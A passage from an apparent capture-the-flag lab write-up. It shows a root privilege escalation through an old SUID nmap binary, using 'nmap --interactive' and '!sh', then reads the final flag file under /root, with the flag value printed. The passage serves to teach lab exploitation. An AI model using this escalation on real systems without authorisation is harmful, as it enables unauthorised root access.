 ```bash
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
```

We have `nmap` with `suid` permissions. Check the version.

```bash
robot@linux:~$ nmap --version
nmap --version

nmap version 3.81 ( http://www.insecure.org/nmap/ )
```

Its an older version. We can escalate privilege using `nmap --interactive`.

```bash
robot@linux:~$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
# id
id
uid=1002(robot) gid=1002(robot) euid=0(root) groups=0(root),1002(robot)
# cd /root
cd /root
# ls
ls
firstboot_done  key-3-of-3.txt
# cat key*
cat key*
04787ddef27c3dee1ee161b21670b4e4
```

And we have the final key.